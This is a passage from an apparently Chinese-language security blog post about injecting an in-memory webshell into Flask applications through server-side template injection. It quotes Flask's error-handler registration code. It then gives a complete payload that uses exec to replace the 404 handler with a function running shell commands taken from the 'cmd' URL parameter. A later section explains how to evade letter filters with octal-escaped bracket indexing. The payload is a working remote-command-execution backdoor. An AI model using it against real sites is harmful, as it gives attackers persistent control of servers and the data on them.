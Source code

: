在最后的代码，code即是前面传来的错误码，exc_class是异常类，f是页面回显内容。通过exec函数执行命令，把结果赋值给f回显到错误页面

```python
exc_class, code = self._get_exc_class_and_code(code_or_exception)
self.error_handler_spec[None][code][exc_class] = f
```

payload：

```python
{{ url_for.__globals__.__builtins__.exec("global exc_class; global code; exc_class, code = app._get_exc_class_and_code(404); app.error_handler_spec[None][code][exc_class] = lambda a: __import__('os').popen(request.args.get('cmd')).read()",{'request': url_for.__globals__['request'],'app': url_for.__globals__['current_app']})}}
```


## 补充

突然发现很多人在看，补充一下最近学到的姿势：无字母打入内存马

需要知道：

- flask可以使用`['']`替换`.`，来访问对象属性，例如：`''.__class__`,`''['__class__']`
- flask可以解析引号里的进制，例如十六进制，八进制，十进制
- flask可以使用`__import__`来导入模块，例如：`__import__('os')`

利用`[]`中括号索引的引号，同时利用八进制数字绕过字母限制，可以达到无字母打入内存马的效果

尝试解析

![7](/medias/flask-shell/7.png)

通过转换进制后的`''['__class__']['__base__']['__subclasses__']()`寻找可以子类`os_wrap`

![8](/medias/flask-shell/8.png)
